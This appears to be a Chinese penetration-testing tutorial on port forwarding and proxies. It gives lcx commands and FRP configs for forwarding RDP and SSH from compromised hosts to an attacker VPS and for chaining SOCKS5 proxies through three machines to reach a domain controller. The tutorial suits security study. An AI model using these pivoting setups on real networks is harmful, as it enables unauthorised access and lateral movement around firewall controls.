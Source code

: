 ```yaml
---
title: 端口转发与代理
date: 2023-09-03T15:29:52+08:00
updated: 2023-08-25T02:19:52+08:00
categories: 
- 渗透测试
- 内网体系建设
---
```


## 端口转发和代理

### 正向shell与反向shell

**正向连接**

受控主机监听一个端口，由控制端主机主动连接获取shell称为正向连接，适用于受控主机具有一个公网ip的情况

**反向连接**

控制端监听一个端口，受控主机反向连接控制端获取shell成为反向连接，受控主机没有公网ip时使用，例如处于内网的主机

### 端口转发

端口转发，将一个网络端口的上收到的数据转发到另一个端口，转发的端口可以是自己的主机，也可以是别的主机。在内网环境中，防火墙对敏感端口进行检测，我们可以将敏感端口数据转发到防火墙允许的端口上，绕过防火墙的检测

端口映射，将公网的地址翻译为私有地址，将外网主机收到的请求映射到内网主机上，使没有公网IP的内网主机能够对外提供服务

### SOCKS代理

一种代理协议，默认端口为1080.版本有SOCKS4和SOCKS5两个，socks4只支持TCP，SOCKS5在4的基础上进行扩展，可以支持UDP等各种身份验证协议，通过搭建SOCKS代理服务器，可以与目标内网进行通信，避免了多次端口转发

## 常见代理与转发工具

### LCX

**目标机器有公网ip**

当拿下一台公网主机的控制权后，若目标对3389远程桌面存在限制，可以通过上传lxc协议的形式，将3389转发到4444端口，例如

```
lcx.exe -tran 4444 127.0.0.1 3389
```

```
此时即可连接4444端口访问远程桌面
redesktop xxxxxxxx 4444
```

**端口映射**

当拿下一台公网主机的控制权，发现该机器为双网卡机器，抓取到内网还存在一台机器的ssh登录凭据，通过端口映射将该内网机的服务转发到具有公网ip的机器上，使我们可以直接连接

```
lcx.exe -tran 2222 10.10.10.20 22
```

转发后由于受控主机2222端口暴露在公网上，我们可以使用ssh凭据直接登录2222端口，也就是内网主机的22端口

**目标机器无公网ip**

当目标机器没有公网IP，我们需要一台有公网IP的VPS(做测试可以采用同一网段进行模拟)，通过在VPS上监听本地的4444端口，同时将8888端口的数据转发到4444端口

```
lcx.exe -listen 4444 8888
```

在受控主机上使用lcx用本地3389端口连接VPS的8888端口

```
./lcx.exe -slave vps_ip 8888 127.0.0.1 3389
```

通过连接VPS的4444端口，即可访问受控主机的桌面

### FRP

FRP支持搭建SOCKS5服务进行穿透，现通过假设的内网环境进行1，2，3级代理，假设有如下环境

|         | IP1             | IP2             |
| ------- | --------------- | --------------- |
| 公网vps | vps_ip          |                 |
| pc1     | 192.168.93.10   |                 |
| pc2     | 192.168.93.20   | 192.168.111.130 |
| pc3     | 192.168.111.140 |                 |
| pc4     | 192.168.111.150 | 10.10.10.20     |
| pc5     | 10.10.10.30     |                 |
| dc      | 10.10.10.10     |                 |

假设我们获得3台机器的控制权，最终目的使访问到dc

#### 一级代理

将公网上的vps作为frp的服务端，其余三台都作为客户端

服务端配置.frps.ini

```
[common]
bind_addr = 0.0.0.0   #服务端的IP地址
bind_port = 7000 	  #服务端上绑定的端口
```

启动服务端

```
./frps -c ./frps.ini
```

配置客户端文件pc1上配置.frpc.ini

```
[common]
server_addr = vps_ip
server_port = 7000 #与服务端端口一致
[socks5]
remote_port = 1080  #转发出去的端口
plugin = socks5 #代理的类型
```

客户端启动

```
./frpc -c ./frpc.ini
```

启动成功后，该1080端口会被转发到服务端，我们可以添加socks5全局代理访问内网

例如使用工具proxychains和proxifier

```
/etc/proxychains.conf添加
socks5 vps_ip 1080 #这里添加被转发出来的端口
```

#### 二级代理

搭建二级代理时，需要重新修改pc1的客户端配置

```shell
[common]
server_addr = vps_ip
server_port = 7000 #与服务端端口一致
[socks5_forward]
type = tcp #使用的协议
remote_port = 1080  #转发出去的端口
local_ip = 192.168.93.10 #本地监听的IP地址
local_port = 10080 #要转发的本地端口
```

再将pc1作为服务端启动，配置frps.ini

```shell
[common]
bind_addr = 0.0.0.0   #pc1的IP地址
bind_port = 7000 	  #pc1上绑定的端口
```

再将pc2作为客户端，配置frpc.ini

```shell
[common]
server_addr = 192.168.93.10 #pc1的ip地址
server_port = 7000 #与服务端端口一致
[socks5]
type = tcp 
remote_port = 10080  #转发出去的端口
plugin = socks5 #代理的类型
```

搭建完后就能通过代理访问到pc3

#### 三级代理

重新修改pc2作为客户端的配置，将10081端口转发出去

```shell
[common]
server_addr = 192.168.93.10 #pc1的ip地址
server_port = 7000 #与服务端端口一致
[socks5_forward]
type = tcp 
remote_port = 10080  #转发出去的端口
local_ip = 192.168.111.130 #本地监听的IP地址，及本机下一网段(内网的ip)
local_port = 10081  #本地监听的端口 
```

将pc2作为服务端启动，配置frps.ini文件

```shell
[common]
bind_addr = 192.168.111.130  #pc2的IP地址
bind_port = 7000 	  #pc2上绑定的端口
```

将与域控机器连接的pc4作为客户端配置frpc.ini

```shell
[common]
server_addr = 192.168.111.130 #pc2的ip地址
server_port = 7000 #与服务端端口一致
[socks5]
type = tcp 
remote_port = 10081  #转发出去的端口
plugin = socks5 #代理的类型
```

如此我们便能访问域控主机DC

## 总结:

端口转发与端口映射的区别在于，端口转发用于将数据转发到另一端口上，端口映射则能够将内网的服务映射到公网，二者的本质区别在于侧重点，转发侧重于转，是单一的过程，而映射则是直接供所有人使用一个映射端口

多级的代理本质上是将已经作为客户端的机器，再一次作为服务端进行使用，并且新增一个端口用于转发

